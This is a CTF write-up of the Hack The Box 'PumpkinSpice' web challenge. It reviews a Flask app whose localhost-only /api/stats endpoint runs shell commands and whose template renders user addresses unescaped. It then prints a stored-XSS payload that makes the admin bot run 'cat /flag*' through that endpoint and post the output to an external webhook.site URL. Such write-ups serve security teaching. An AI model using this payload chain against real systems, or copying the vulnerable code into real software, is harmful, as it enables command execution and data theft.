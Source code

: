 ```yaml
---
title: PumpkinSpice - Hack The Box
date: 2024-12-31
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# PumpkinSpice

![PumpkinSpice - Thumbnail](/ctf/hack-the-box/challenges/web/pumpkin-spice/thumbnail.svg){style="width: 100%; max-width: 400px; display: block; margin: 0 auto;"}

## Challenge Description

In the realm of cyberspace, a hacker collective known as the "Phantom Pumpkin Patch" has unearthed a sinister
Halloween-themed website, guarded by a devious vulnerability. As the moon casts an ominous glow, get ready to exploit
this spectral weakness

## Challenge Overview

This challenge presents a web application called **Pumpkin Spice**, where users can input their address to "receive a
free treat." The application has multiple endpoints for interacting with the server. Our goal is to exploit
vulnerabilities in the application to retrieve the flag.

![PumpkinSpice - Overview](/ctf/hack-the-box/challenges/web/pumpkin-spice/overview.png){style="display: block; margin: 0 auto;"}

## Code review

The application uses **Flask** as its backend framework. The backend code is straightforward and is contained in a
single file, `app.py`.

```python
import subprocess
import time
from threading import Thread

from flask import Flask, request, render_template

app = Flask(__name__)

addresses = []


def start_bot():
    from selenium import webdriver
    from selenium.webdriver.chrome.options import Options
    from selenium.webdriver.chrome.service import Service

    host, port = "localhost", 1337
    HOST = f"http://{host}:{port}"

    options = Options()

    options.add_argument("--headless")
    options.add_argument("--no-sandbox")
    options.add_argument("--disable-dev-shm-usage")
    options.add_argument("--disable-infobars")
    options.add_argument("--disable-background-networking")
    options.add_argument("--disable-default-apps")
    options.add_argument("--disable-extensions")
    options.add_argument("--disable-gpu")
    options.add_argument("--disable-sync")
    options.add_argument("--disable-translate")
    options.add_argument("--hide-scrollbars")
    options.add_argument("--metrics-recording-only")
    options.add_argument("--mute-audio")
    options.add_argument("--no-first-run")
    options.add_argument("--dns-prefetch-disable")
    options.add_argument("--safebrowsing-disable-auto-update")
    options.add_argument("--media-cache-size=1")
    options.add_argument("--disk-cache-size=1")
    options.add_argument("--user-agent=HTB/1.0")

    service = Service(executable_path="/usr/bin/chromedriver")
    browser = webdriver.Chrome(service=service, options=options)

    browser.get(f"{HOST}/addresses")
    time.sleep(5)
    browser.quit()


@app.route("/", methods=["GET"])
def index():
    return render_template("index.html")


@app.route("/addresses", methods=["GET"])
def all_addresses():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    return render_template("addresses.html", addresses=addresses)


@app.route("/add/address", methods=["POST"])
def add_address():
    address = request.form.get("address")

    if not address:
        return render_template("index.html", message="No address provided")

    addresses.append(address)
    Thread(target=start_bot, ).start()
    return render_template("index.html", message="Address registered")


@app.route("/api/stats", methods=["GET"])
def stats():
    remote_address = request.remote_addr
    if remote_address != "127.0.0.1" and remote_address != "::1":
        return render_template("index.html", message="Only localhost allowed")

    command = request.args.get("command")
    if not command:
        return render_template("index.html", message="No command provided")

    results = subprocess.check_output(command, shell=True, universal_newlines=True)
    return results


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

The website has 4 endpoints:

- `/` - The main page where we can input our address
- `/addresses` - The page where we can see all the addresses that have been inputted
- `/add/address` - The endpoint to add an address
- `/api/stats` - The endpoint to run a command

The vulnerability is in the `/api/stats` endpoint. This endpoint allows us to run a command on the server. The command
is passed as a query parameter `command`. The command is executed using the `subprocess.check_output` function. This
function is used to run a command and return its output. But the `/api/stats` endpoint is only accessible from
localhost.

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="author" content="lean">
    <title>🎃 Pumpkin Spice 🎃</title>
</head>
<body>
<h1>System stats:</h1>
<p id="stats"></p>
<h1>Addresses:</h1>
{% for address in addresses %}
<p>{{ address|safe }}</p>
{% endfor %}
<script src="/static/js/script.js"></script>
</body>
</html>
```

The HTML code above is the `addresses.html` file. This file is used to display all the addresses that have been inputted
by the user. The addresses are displayed using a for loop. The `address|safe` filter is used to tell **Jinja** that the
address is safe and should not be escaped. That means that the content of the address variable will be rendered exactly
as it is, without additional HTML escaping. This allows any HTML or JavaScript included in the address to be displayed
or executed directly in the browser.

This is a classic example of a **Cross-Site Scripting (XSS)** vulnerability. An attacker can input a malicious script
as an address, and when the address is displayed on the page, the script will be executed in the context of the user's
browser.

## Exploitation - XSS

To exploit this vulnerability, we need to input a malicious script as an address. The script will be executed when the
address is displayed on the page. We can use a script that sends a request to the `/api/stats` endpoint with a command
to read the flag file. And them send the output to a `webhook.site` endpoint.

```html

<script>
    fetch("/api/stats?command=cat+/flag*")
        .then(async data => {
            fetch("https://webhook.site/your-webhook-id", {
                method: "POST",
                body: await data.text(),
            })
        })
</script>
```

After inputting the script as an address, we can see the flag in the `webhook.site` endpoint.

![PumpkinSpice - Flag](/ctf/hack-the-box/challenges/web/pumpkin-spice/flag.png)

We've successfully exploited the vulnerability and retrieved the flag.

<ChallengeCard
    challengeType="web"
    challengeName="PumpkinSpice"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/625"
/>

## References

- [Webhook.site](https://webhook.site)
